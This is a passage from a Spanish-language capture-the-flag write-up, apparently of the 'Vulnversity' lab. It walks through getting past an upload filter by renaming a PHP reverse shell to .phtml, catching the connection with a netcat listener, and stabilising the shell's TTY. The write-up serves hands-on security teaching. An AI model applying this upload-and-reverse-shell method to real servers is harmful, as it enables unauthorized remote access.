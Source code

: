 Pero claro, el servidor no puede interpretar un archivo con extensión `.php`, es por ello que primero edite los parámetros con NANO y luego convertí la extensión.

![](/images/vulnversity/Pasted image 20240702022708.png)

Para convertir el archivo en formato `.phtml` es tan fácil como copiarlo al mismo directorio de trabajo, pero con la nueva extensión:

```sh
cp php-reverse-shell.php php-reverse-shell.phtml
```

Yo además cambie el nombre del archivo al mítico `cmd` (pero sólo es costumbre, no es necesario) y probe en subir el archivo, pero antes de ello, deje a mi Kali en modo escucha:

```sh
nc -nlvp 4445
```

Para ejecutar el archivo, ingrese desde el navegador a la ruta:

```
http://10.10.231.191:3333/internal/uploads/cmd.phtml
```

Y pude establecer la conexión inversa:

![](/images/vulnversity/Pasted image 20240702023607.png)

Pero, se debe de recordar que esta no es una Shell Interactiva, para ello, se debe realizar el tratamiento de la TTY:

Ingresar el comando (en nuestra terminal de atacante de Kali):

```sh
script /dev/null -c bash
```

Pulsar la combinación: `ctrl + z`

Escribir el comando:

```sh
stty raw -echo; fg
```

Pulsar `Enter` y escribir:

```
reset xterm
```

Escribir:

```
export TERM=xterm
```

Ahora debemos colocar nuestra terminal en pantalla completa (si es que no lo está) para trabajar más comodo en caso de comandos muy largos:

```
stty rows 30 columns 100
```
